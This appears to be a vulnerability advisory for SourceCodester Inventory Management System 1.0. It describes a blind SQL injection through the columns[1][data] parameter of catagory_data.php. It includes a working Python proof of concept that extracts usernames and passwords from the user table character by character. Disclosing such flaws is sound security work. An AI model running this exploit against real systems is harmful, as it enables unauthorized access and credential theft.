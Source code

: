 # SourceCodester Inventory Management System 1.0 has a SQL Injection vulnerability in catagory_data.php
## Software

- Software: Inventory Management System 1.0
- Software Link: https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html
- Vulnerability Type: SQL Injection
- Attack Type: Remote
- Vendor of Product: Sourcecodester

## Description

A vulnerability has been found in SourceCodester Inventory Management System 1.0 and classified as critical. SourceCodester Inventory Management System 1.0 has a SQL Injection vulnerability in catagory_data.php. Affected is file catagory_data.php, the manipulation of the argument `columns[1][data]` leads to SQL injection. The injection vulnerability located after the `order by` clause. By comparing the different sorting order results between `order by id^1` and `order by id^0`, it is possible to achieve boolean-based blind injection. Remote attackers can exploit boolean-based blind injection to retrieve all data from the database.

## Vulnerability Code
- app/ajax/catagory_data.php

![](https://github.com/Yesec/Inventory-Management-System/assets/19534204/2cda67b0-0026-4949-b2c8-21945854c20e)

## POC
```python
import requests
import string

url = "http://localhost/app/ajax/catagory_data.php"
res = ""
dict = string.digits + string.ascii_lowercase + "!@#$%^()[]_."

for i in range(1,50):
    for j in dict:
        # payload = "id^(select(select database()) regexp '^%s');" % (res+j)
        payload = "id^(select(select group_concat(username,password) from user) regexp '^%s');" % (res+j)
        data = {
            "order[0][column]":"1",
            "columns[1][data]": payload
        }
        response = requests.post(url, data=data)
        if '"id":"3"' in response.text[802:810]:
            res += j
            print("[*] Found: ",res)
            break
```
![](https://github.com/Yesec/Inventory-Management-System/assets/19534204/19dde424-e1e4-4658-a547-5f74ee739870)
